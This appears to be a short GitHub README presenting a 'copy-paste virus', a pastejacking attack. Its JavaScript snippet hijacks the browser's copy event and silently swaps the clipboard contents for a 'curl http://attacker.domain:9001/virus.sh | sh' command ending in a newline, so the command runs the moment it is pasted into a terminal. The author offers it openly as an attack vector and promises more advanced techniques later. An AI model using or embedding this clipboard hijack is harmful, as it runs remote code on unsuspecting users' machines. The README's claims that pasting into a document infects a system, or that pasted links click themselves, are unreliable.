 # copy-past-Virus
Basically when the text is pasted into a terminal or CMD/PowerShell, the script is executed automatically (because I use \n to create new line) and can cause a variety of things, such as stealing data or installing malware. This is designed to infect a computer by hiding within copied and pasted text or code. As soon as the copied content is pasted into a new document, the malware infects the system, giving hackers access to sensitive information. copy-paste malware is silent operation. They can easily slip under the radar of many antivirus software, making them difficult to detect. Once they have infiltrated a system, they can be used to steal sensitive data such as passwords, financial information, and confidential documents. This is a small JavaScript code to show potential of this attack.

This attack works also on Windows 11 and Ubuntu.


# example of attacker script: 
 ```
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker.domain:9001/virus.sh | sh\n'); e.preventDefault(); });
 </script>
```

 **this attack also works on ubuntu users. A command like sudo apt-get update && apt-get upgrade should normally update the repositories and upgrade the packages on a ubuntu system. The attacker will add \n or \r\n for new line. When this happens in a terminal it will automatically execute the code.**

**Another way that malicious code can be introduced into systems through copy and paste is through the use of malicious links. These links can be embedded in text that is copied from a website. When the text/link is pasted into a browser, the link is clicked and the user is taken to a malicious website. This website can then install malware on the user's computer or steal the user's personal information.**

 For now, this is short simple concept and show of kinda smart attack vector but in the future, when I have time, I will learn more about this method and update this repository with more advanced techniques.

